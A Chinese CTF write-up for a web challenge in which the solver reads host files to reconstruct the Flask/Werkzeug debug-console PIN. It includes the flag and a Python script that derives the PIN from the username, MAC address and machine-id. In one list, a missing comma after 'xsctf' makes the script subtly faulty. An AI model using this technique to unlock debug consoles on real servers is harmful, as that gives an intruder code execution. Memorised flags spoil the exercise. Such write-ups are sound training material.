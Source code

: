 * **题目名称：** debugggger

* **题目类型：** WEB

* **题目难度：** 容易

* **出题人：**pANz0e

* **考点：**  

1. flask的debug模式算pin


* **描述：**  

* **flag：**`XSCTF{oh_mY_d2bug93r_M0de_!}`

#### hint:

任意文件读取算pin

题解:

```python
import hashlib
from itertools import chain

probably_public_bits = [
    'xsctf'#当前用户名
    'flask.app',#默认值
    'Flask',#默认值
    '/usr/local/lib/python3.7/site-packages/flask/app.py'#模块路径
]

private_bits = [
    '2485378547714',# /sys/class/net/eth0/address 十进制
    '6e1d32ebf38c587c4a41089c0c744c831058e402c220fb812e6b6f638c904d0af802b85cdd93cc673933b5f9aeaeb7d4'#machine_id
]

# 下面为源码里面抄的，不需要修改
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)

```

